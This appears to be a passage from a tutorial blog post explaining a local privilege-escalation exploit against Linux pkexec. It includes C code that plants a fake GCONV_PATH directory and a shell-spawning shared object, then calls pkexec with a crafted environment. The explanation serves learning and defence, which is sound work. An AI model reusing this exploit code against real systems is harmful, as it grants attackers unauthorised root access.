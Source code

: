 ```c
    int fd;
    char* dir = mkdtemp("pkexec");
    chdir(dir);
    // Create a fake executable
    mkdir("GCONV_PATH=.", 0755);
    fd = open("GCONV_PATH=./evildir", O_WRONLY|O_CREAT, 0755);
    close(fd);
    // Executing 'evildir' with PATH set to our 'GCONV_PATH=.' dir will map to
    // GCONV_PATH=./evildir, which will be written into argv[1] (really envp[0])
    mkdir("evildir", 0755);
    // Setup a malicious gconv-modules which uses GCONV_PATH/evil.so to convert to
    // charset 'evil'
    fd = open("evildir/gconv-modules", O_WRONLY|O_CREAT, 0755);
    write(fd, evil_mod, sizeof(evil_mod));
    close(fd);
    // Create a shared object that pops a shell upon load
    fd = open("evildir/evil.so", O_WRONLY|O_CREAT, 0755);
    write(fd, evil_so, sizeof(evil_so));
    close(fd);
    char* argv[] = {NULL};
    execve("/usr/bin/pkexec", argv, envp);
}
```

It definitely looks foreign at first, but, if you've been able to follow along, this isn't as complex. A lot of it is just setting up the scenario to point the PATH in the wrong direction and creating the payload. But, if you just take a moment to abstract all of that and not really pay attention, just look at the `execve()` call.

```c
char *envp[] = {
        "evildir",
        "PATH=GCONV_PATH=.",
        "CHARSET=evil",
        "SHELL=evil",
        NULL
    };
/* ...[trim]... */
char* argv[] = {NULL};
execve("/usr/bin/pkexec", argv, envp);
```

At the end of the day, all this exploit is, is not accounting for environment variables as a potential attack surface. We run `pkexec` in a condition where it throws an error (all of the memory stuff), and then change around some configuration to force the message printing library into loading our own shared object (the payload stuff).

### Running It
As we've discussed, this works on pretty much any Linux distro (with a few exceptions). I'll run it on my Kali Linux VM, which runs Debian. *I was going to do my Ubuntu VM too, but it turns out patches went live and I don't feel like downgrading right now.*
